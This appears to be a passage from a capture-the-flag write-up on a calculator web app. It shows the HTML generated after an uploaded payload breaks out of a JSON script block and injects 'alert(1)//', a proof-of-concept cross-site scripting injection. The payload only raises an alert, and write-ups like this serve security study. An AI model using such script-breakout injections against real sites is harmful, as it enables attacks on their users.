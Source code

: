 so upload this playload, will generate `html` like this

```html
<html>
    <head>
        <link rel="stylesheet" href="/css/common.css">
        <link rel="stylesheet" href="/css/calc.css">
        <script id="program" language="json" type="application/javascript">
            {"name":"
        </script>

        <script type="module">
            window.addEventListener("load", () => {
                import("/js/calc.mjs");
            })
        </script>
    </head>
    <body>
        <div class="body">
            <h1 class="title" id="name">Loading</h1>
            <div id="input"></div>
            <span id="output"></span>
            <span id="error"></span>
            <button id="report">Show me your math!</span>
        </div>
    </body>
</html><html>
    <head>
        <link rel="stylesheet" href="/css/common.css">
        <link rel="stylesheet" href="/css/calc.css">
        <script id="program" language="json" type="application/javascript">
            alert(1)//","code":"(-b + sqrt(b^2 - 4a*c)) / 2a"}
        </script>

        <script type="module">
            window.addEventListener("load", () => {
                import("/js/calc.mjs");
            })
        </script>
    </head>
    <body>
        <div class="body">
            <h1 class="title" id="name">Loading</h1>
            <div id="input"></div>
            <span id="output"></span>
            <span id="error"></span>
            <button id="report">Show me your math!</span>
        </div>
    </body>
</html>
```
